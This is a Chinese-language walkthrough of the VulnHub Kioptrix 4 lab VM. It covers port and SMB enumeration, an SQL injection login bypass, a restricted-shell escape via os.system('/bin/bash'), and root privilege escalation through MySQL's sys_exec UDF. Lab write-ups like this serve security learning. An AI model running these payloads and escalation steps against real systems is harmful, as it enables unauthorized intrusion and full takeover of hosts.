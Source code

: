 ```yaml
---
title: vulnhub kioptrix level 4
---
```


打开靶机，和kali攻击机在同一网段

### 信息收集
用arp-scan和nmap获取机器IP为192.168.159.132

#### 端口扫描
```
msf$ db_nmap -sT -sV -p 1-65535 192.168.159.132
msf$ services 192.168.159.132
host             port  proto  name         state  info
----             ----  -----  ----         -----  ----
192.168.159.132  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.159.132  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
192.168.159.132  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.159.132  445   tcp    smb          open   Unix (Samba 3.0.28a)
```

#### web
测试了以下密码字段可以sql注入`a' or 1=1 -- `，但是sqlmap注入不出来，调整risk和level没有效果

#### smb信息探测
用nmap的脚本或者msf的扫描
```
root@kali:~/test# nmap --script smb-enum-users 192.168.159.132
Host script results:
| smb-enum-users: 
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account
```

```
msf5 auxiliary(scanner/smb/smb_enumshares) > use auxiliary/scanner/smb/smb_enumusers 
msf5 auxiliary(scanner/smb/smb_enumusers) > set RHOSTS 192.168.159.132
RHOSTS => 192.168.159.132
msf5 auxiliary(scanner/smb/smb_enumusers) > run

[+] 192.168.159.132:139   - KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] 192.168.159.132:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 漏洞分析
`searchsploit`后没有发现什么可以利用的漏洞版本

smb服务发现一些用户信息，可以使用ssh暴破弱口令尝试

### 漏洞利用
实在没有发现什么可以利用的地方，看别人writeup使用smb暴破出来的john加上使用密码表单提交`a' or 1=1 -- `会返回密码，实际中并没有返回密码，但是返回界面确实一样，于是怀疑是sqlmap注入的时候破坏了数据表，但是sqlmap没有成功注入

使用网上writeup的john用户的密码登录
```
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

### 后渗透利用
发现shell的命令是在少，没有可以利用的地方，也无法查看重要的目录，sudo、suid、cron等方式都无法使用

又没有办法提权，查看别的writeup使用了ubuntu默认使用python的特性，可以提权
```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ help
```

对这种方式表示惊呆了，然后对公司多个主机使用此方式切换shell尝试均无效，所以不研究了。。。

获取bash后查看sudo不能使用，suid不想一个个看过去，cron没有人用，尝试软件或者linux版本是否能提权

`ps -ef |grep root`，能看到mysql用root启动

尝试mysql提权，查看资料有UDF提权

```
john@Kioptrix4:~$ locate udf
/lib/modules/2.6.24-24-server/kernel/fs/udf
/lib/modules/2.6.24-24-server/kernel/fs/udf/udf.ko
/usr/lib/lib_mysqludf_sys.so
/usr/share/mysql/mysql-test/include/have_udf.inc
/usr/share/mysql/mysql-test/r/have_udf.require
/usr/share/mysql/mysql-test/r/have_udf_example.require
/usr/share/mysql/mysql-test/r/udf.result
/usr/share/mysql/mysql-test/t/udf.test
john@Kioptrix4:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select * from mysql.func
    -> ;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    1
Current database: *** NONE ***

+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

### 其他
这次完全不能提权，知识面有限，全靠别人writeup
